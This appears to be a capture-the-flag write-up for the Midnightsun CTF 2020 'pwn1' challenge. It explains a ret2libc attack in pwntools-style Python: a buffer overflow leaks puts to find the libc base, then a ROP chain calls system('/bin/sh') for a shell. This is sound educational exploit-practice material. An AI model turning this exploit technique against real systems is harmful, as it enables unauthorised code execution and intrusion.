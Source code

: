 
## pwn1 (70pt)
### Description

> An homage to pwny.racing, we present... speedrun pwn challenges.
> These bite-sized challenges should serve as a nice warm-up for your pwning skills.


### Attachment

[pwn1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn1/pwn1), [libc](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn1/libc.so)

### Analysis

just an general warming up task of ret2libc attack

### Solution

#### leak libc 

**ASLR** is enabled, so leak libc first:

```python
# elf, libc
main = 0x00400698

# rop1
offset = cyclic_find(0x61616173)
payload = cyclic(offset)
payload += p64(prdi) + p64(elf.got['puts']) + p64(elf.sym['puts']) + p64(main)

ru('buffer: ')
# debug()
sl(payload)
```

#### calculate baseaddr

we can calculate the base address of libc by `puts-libc.sym['puts']` after `puts` in libc was leaked

```python
puts = uu64(rc(6))
info_addr("puts",puts)
libcbase = puts-libc.sym['puts']
```

address of other function/string in libc can be calculated as follow:

```python
system = libcbase+libc.sym['system']
binsh  = libcbase+libc.search('/bin/sh').next()
```

#### getshell

finally, execute `system('/bin/sh')`

```python
# rop2
ru('buffer: ')
payload = cyclic(offset)
payload += p64(ret) + p64(prdi) + p64(binsh) + p64(system) + p64(main)
# debug()
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/MidnightsunCTF2020/pwn/pwn1) 

